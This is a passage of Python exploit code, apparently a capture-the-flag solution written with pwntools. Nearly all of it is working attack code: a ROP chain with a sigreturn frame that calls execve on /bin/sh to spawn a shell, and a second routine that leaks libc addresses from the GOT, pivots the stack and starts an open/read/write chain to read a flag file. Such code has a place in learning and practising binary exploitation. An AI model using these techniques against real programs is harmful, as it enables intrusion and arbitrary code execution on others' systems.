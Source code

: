 ```python
    """
    This exploit uses ROP to read in a /bin/sh string and then uses a sigreturn
    to execve and get a shell. Due to the anti-debugging measures in the offical
    binary (it runs the ptrace syscall), this only works on patched binaries and
    not the real flag, but was part of my exploit development so I kept it
    around for example purposes. The ptrace makes it so that execve sycalls get
    SIGTRAP'd which stops them from executing.
    """
    io = start()

    bin_sh_addr = 0x404000
    r = ROP(exe)
    r.readStr(bin_sh_addr, 0xff)
    r.raw(clear_eax)
    r.raw(0) # pad because the clear_eax has an extra pop
    r.raw(sigreturn)

    frame = SigreturnFrame()
    frame.rax = constants.SYS_execve
    frame.rdi = bin_sh_addr
    frame.rsi = 0
    frame.rdx = 0
    frame.rip = syscall

    do_rop(io, r.chain() + bytes(frame))

    io.clean()
    io.sendline("/bin/sh")
    io.interactive()

def do_libc_exploit():
    """
    This exploit leaks libc addresses from GOT to calculate the base address
    and leverages that to ROP an open/read/write flow to get the flag.
    """
    io = start()
    data_writable = 0x404f00
    flag_addr = 0x404e00

    # First ROP is to leak the heap address and set us up for another.
    r = ROP(exe)
    r.puts(exe.got['puts'])
    r.puts(exe.got['malloc'])
    r.readStr(flag_addr, 0xff)
    r.readStr(data_writable, 0xfff)
    r.raw(pop_rsp) #  pop rsp; pop r13; pop r14; pop r15; ret;
    r.raw(data_writable)
    heap = do_rop(io, r.chain())
    heap += 1024 # get our of the way of our previous writes

    io.recvuntil("Bio: ")
    leaks = io.clean()[:-1].split(b"\n")
    if len(leaks) < 3:
        return
    puts_addr = int.from_bytes(leaks[-2], "little")
    malloc_addr = int.from_bytes(leaks[-1], "little")
    libc.address = puts_addr-libc.symbols['puts']
    log.info("libc: " +hex(libc.address))

    io.sendline("./flag.txt")

    r = ROP([exe, libc])
    r.raw(1) #  r13-15
```